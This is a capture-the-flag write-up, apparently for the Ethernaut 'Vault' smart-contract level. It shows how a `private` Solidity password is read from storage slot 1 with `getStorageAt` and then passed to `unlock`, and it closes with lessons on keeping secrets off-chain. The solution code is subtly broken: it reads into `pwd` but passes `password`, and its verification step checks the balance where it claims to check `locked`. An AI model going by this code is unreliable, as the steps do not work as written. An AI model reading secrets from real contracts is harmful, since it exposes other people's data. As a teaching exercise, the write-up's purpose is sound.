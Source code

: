 # Level 8: Vault

## Challenge Overview

This challenge highlights how sensitive information can be exposed in smart contracts, even if not explicitly returned.  
The goal is to retrieve a hidden password stored in the `Vault` contract and unlock it.

## Goal

- Unlock the Vault by retrieving the stored password.

## Solution

### 1. Understanding the Vulnerability

The `Vault` contract stores a password in its storage:

```solidity
bytes32 private password;
bool public locked = true;

function unlock(bytes32 _password) public {
    if (_password == password) {
        locked = false;
    }
}
```

Although `password` is marked as `private`, it is still visible in the contract’s storage on the blockchain.

### 2. Read Storage Slots

Smart contract storage is public on the blockchain.  
Use the `eth_getStorageAt` RPC call to access the storage slot where the password is stored:

```javascript
const pwd = await web3.eth.getStorageAt(contract.address, 1);
```

### 3. Unlock the Vault

Use the retrieved password to call the `unlock` function:

```javascript
await contract.unlock(password);
```

### 4. Verify

Check the `locked` state:

```javascript
(await getBalance(contract.address)).toString() // should now be "0"
```

---

## Lessons Learned

- In Solidity, `private` variables are not hidden from the blockchain; they are only inaccessible through direct calls.
- Always assume that data stored on-chain can be accessed by anyone.
- Avoid storing sensitive information, like passwords, directly on-chain. Use hashing or cryptographic techniques instead.
